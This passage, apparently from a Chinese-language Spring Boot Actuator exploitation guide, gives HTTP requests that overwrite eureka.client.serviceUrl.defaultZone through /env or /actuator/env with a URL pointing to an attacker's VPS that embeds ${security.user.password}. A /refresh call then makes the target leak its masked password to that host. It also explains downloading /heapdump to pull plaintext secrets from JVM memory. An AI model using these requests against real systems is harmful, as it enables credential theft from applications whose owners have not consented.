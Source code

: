 

- `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```



##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```

### 0x06：获取被星号脱敏的密码的明文 (方法四)

> https://www.cnblogs.com/xiaozi/p/16492011.html
>
>  Heap Dump也叫堆转储文件，是一个Java进程在某个时间点上的内存快照。访问/heapdump会下载当前项目的内存快照，然后就可以分析了。

#### 利用条件：

- 可正常 GET 请求目标 `/heapdump` 或 `/actuator/heapdump` 接口

#### 利用方法：

##### 步骤二： 下载 jvm heap 信息

> 下载的 heapdump 文件大小通常在 50M—500M 之间，有时候也可能会大于 2G

- `GET` 请求目标的 `/heapdump` 或 `/actuator/heapdump` 接口，下载应用实时的 JVM 堆信息
